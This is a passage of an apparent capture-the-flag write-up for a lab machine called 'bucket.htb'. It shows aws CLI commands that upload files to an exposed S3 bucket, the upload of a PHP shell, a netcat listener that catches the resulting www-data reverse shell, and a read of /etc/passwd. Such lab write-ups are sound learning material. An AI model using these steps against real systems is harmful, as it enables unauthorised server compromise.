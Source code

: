 			        },
			        "Size": 5344
		    	}
		    ]
		}

	- these files looks like `bucket.htb` source files
	- these file sync in every min or less to the main server

- I try to upload file in the bucket and check if it is accessable from `bucket.htb`

	`aws --endpoint-url=http://s3.bucket.htb s3 cp test.html s3://adserver`

	  upload: ./test.html to s3://adserver/test.html

	`aws --endpoint-url=http://s3.bucket.htb s3 ls s3://adserver`

	  .                          PRE images/
	  2020-11-04 04:16:12       5344 index.html
	  2020-11-04 04:17:01         47 test.html

	`curl -I http://bucket.htb/test.html`

	  HTTP/1.1 200 OK
	  Date: Wed, 04 Nov 2020 04:17:18 GMT
	  Server: Apache/2.4.41 (Ubuntu)
	  Last-Modified: Wed, 04 Nov 2020 04:17:04 GMT
	  ETag: "2f-5b3404073f723"
	  Accept-Ranges: bytes
	  Content-Length: 47
	  Content-Type: text/html

- some notable things,
	- uploaded file sync only once and the automatically deleted after it
	- file takes atleast 30-60sec to sync
	- I can upload php shell and access from the main server


# user Exploit

- **First**, upload php shell in the bucket 

	`aws --endpoint-url=http://s3.bucket.htb s3 cp shell.php s3://adserver`

- **Second**, open netcat listener

	`nc -nvlp 4141`

- **Third**, after sometime i go to `bucket.htb/shell.php` and shell pops in the netcat
- got `www-data` shell

## Enumerating www-data

`cat /etc/passwd`
```
#roy:x:1000:1000:,,,:/home/roy:/bin/bash
```
